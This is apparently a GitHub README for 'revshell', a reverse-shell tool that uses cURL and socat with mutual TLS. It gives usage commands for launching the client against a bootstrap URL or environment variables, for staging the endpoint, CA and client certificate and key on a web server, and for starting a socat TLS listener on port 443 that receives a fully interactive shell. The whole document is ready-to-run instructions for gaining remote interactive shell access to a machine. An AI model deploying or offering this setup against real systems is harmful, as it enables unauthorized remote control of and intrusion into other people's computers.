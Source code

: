# revshell
#### Unsneaky and somewhat ghetto reverse shell with mutual TLS authentication, using cURL and socat

## Introduction
This simple reverse shell can be used to establish an encrypted and authenticated connection back to your remote host.  
Besides that, you even get a fully interactive shell - tab complete all day long, if you wish to do so.  
  

The reverse connection is configured using a bootstrap URL, provided either by a command line argument or environment variables.  

## Usage

### Client - Command line argument
```
$ revshell "https://example.com/bd7751b6ec39"
```

### Client - Environment variables
```
$ export REVSHELL_BOOTSTRAP_URL="https://example.com"; export REVSHELL_BOOTSTRAP_TOKEN="bd7751b6ec39"
$ revshell
```

### Bootstrap provider
```
$ mkdir /var/www/html/bd7751b6ec39
$ echo -n "example.com:443" > /var/www/html/bd7751b6ec39/endpoint
$ cp ca/keys/ca.crt /var/www/html/bd7751b6ec39/ca
$ cat ca/keys/example.com.crt ca/keys/example.com.key > /var/www/html/bd7751b6ec39/cert
```

### Server
```
$ cat ca/keys/example.com.crt ca/keys/example.com.key > ca/keys/server.pem
$ socat file:`tty`,raw,echo=0 openssl-listen:443,reuseaddr,cert=ca/keys/server.pem,cafile=ca/keys/ca.crt
```
